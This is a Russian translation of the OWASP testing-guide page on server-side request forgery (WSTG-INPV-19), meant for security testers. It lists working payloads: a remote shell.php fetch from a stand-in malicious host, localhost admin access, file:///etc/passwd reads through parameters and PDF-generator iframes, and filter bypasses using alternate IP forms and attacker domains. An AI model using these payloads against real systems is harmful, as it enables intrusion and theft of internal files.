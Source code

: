 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Тестирование подделки запроса на стороне сервера

|ID          |
|------------|
|WSTG-INPV-19|

## Обзор

Web-приложения часто взаимодействуют с внутренними или внешними ресурсами. Хотя вы можете ожидать, что обрабатывать отправляемые вами данные будет только предназначенный для этого ресурс, неправильно обработанные данные могут создать ситуацию, в которой возможны атаки путём инъекции. Одним из видов инъекций является подделка запросов на стороне сервера (SSRF). Успешная атака SSRF может предоставить злоумышленнику доступ к ограниченным действиям, внутренним службам или внутренним файлам в приложении или организации. В некоторых случаях это даже может привести к удалённому выполнению кода (RCE).

## Задачи тестирования

- Найти точки для инъекции SSRF.
- Протестировать, пригодны ли эти точки для эксплуатации.
- Оцените воздействие уязвимости.

## Как тестировать

При тестировании на SSRF вы пытаетесь заставить целевой сервер непреднамеренно загружать или сохранять содержимое, которое может быть вредоносным. Самый распространённый тест — локальное и удаленное включение файлов. Есть ещё один аспект SSRF: доверительные отношения, которые часто возникают, когда сервер приложений может взаимодействовать с другими бэкенд-серверами, недоступными для пользователей напрямую. Эти бэкенд-серверы часто имеют немаршрутизируемые частные IP-адреса или ограничены определёнными хостами. Поскольку они защищены топологией сети, им часто не хватает более сложных элементов управления. Эти внутренние системы часто содержат конфиденциальные данные или функции.

Рассмотрите следующий запрос:

``` http
GET https://example.com/page?page=about.php
```

Вы можете протестировать этот запрос со следующими полезными нагрузками.

### Загрузить содержимое файла

```http
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

### Обратиться к странице с ограниченным доступом

```http
GET https://example.com/page?page=http://localhost/admin
```

Или:

```http
GET https://example.com/page?page=http://127.0.0.1/admin
```

Используйте интерфейс обратной связи для доступа к контенту, доступ к которому ограничен только хостом. Этот механизм подразумевает, что если у вас есть доступ к хосту, у вас также есть привилегии для прямого доступа к странице `admin`.

Такого рода доверительные отношения, при которых запросы, исходящие с локального компьютера, обрабатываются иначе, чем все остальные, часто делают SSRF критической уязвимостью.

### Извлечь локальный файл

```http
GET https://example.com/page?page=file:///etc/passwd
```

### Используемые HTTP-методы

Все приведенные выше полезные данные могут применяться к любому типу HTTP-запроса, а также могут быть вставлены в значения заголовков и cookie.

Одно важное замечание относительно SSRF с POST-запросами заключается в том, что SSRF также может проявляться вслепую, потому что приложение может сразу ничего и не выдавать. Вместо этого введённые данные могут использоваться в других функциях, таких как отчёты в формате PDF, обработка счетов-фактур или заказов и т.д., которые могут быть видны сотрудникам или персоналу, но не обязательно конечному пользователю или тестировщику.

Узнать больше о слепом SSRF можно [здесь](https://portswigger.net/web-security/ssrf/blind), или в [разделе ссылок](#ссылки).

### Генераторы PDF

В некоторых случаях сервер может конвертировать загруженные файлы в формат PDF. Попробуйте вставить элементы `<iframe>`, `<img>`, `<base>` или `<script>` или функцию CSS `url()`, указывающие на внутренние службы.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Распространённые пути обхода фильтра

Некоторые приложения блокируют ссылки на `localhost` и `127.0.0.1`. Это можно обойти с помощью:

- Использование альтернативного представления IP-адреса, которое эквивалентно `127.0.0.1`:
    - Десятичное: `2130706433`
    - Восьмеричное: `017700000001`
    - Сокращённая запись IP: `127.1`
- Обфускация строк
- Регистрация собственного домена, который разрешается в `127.0.0.1`

Иногда приложение допускает ввод, соответствующий только определённому выражению, например домену. Это можно обойти, если неправильно реализован парсер схемы URL, что может привести к следующим [семантическим атакам](https://datatracker.ietf.org/doc/html/rfc3986#section-7.6):

- использованию символа `@` для разделения информации о пользователе и хосте: `https://expected-domain@attacker-domain`;
- URL-фрагменты с помощью символа `#`: `https://attacker-domain#expected-domain`;
- URL-кодировка;
- фаззинг;
- сочетания из всего вышеперечисленного.

Дополнительные полезные нагрузки и методы обхода см. в разделе [Ссылки](#ссылки).

## Как исправить

Известно, что SSRF — одна из самых сложных атак, которую невозможно отразить без использования «белых» списков, требующих указания конкретных IP- и URL-адресов. Подробнее о защите от SSRF см. в [Памятке по предотвращению подделки запросов на стороне сервера](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## Ссылки

- [swisskyrepo: SSRF Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Reading Internal Files Using SSRF Vulnerability](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [OWASP Server Side Request Forgery Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Portswigger: SSRF](https://portswigger.net/web-security/ssrf)
- [Portswigger: Blind SSRF](https://portswigger.net/web-security/ssrf/blind)
- [Bugcrowd: SSRF](https://www.bugcrowd.com/glossary/server-side-request-forgery-ssrf/)
- [Hackerone Blog: SSRF](https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf)
- [Hacker101: SSRF](https://www.hacker101.com/sessions/ssrf.html)
- [Общий синтаксис URI](https://datatracker.ietf.org/doc/html/rfc3986)
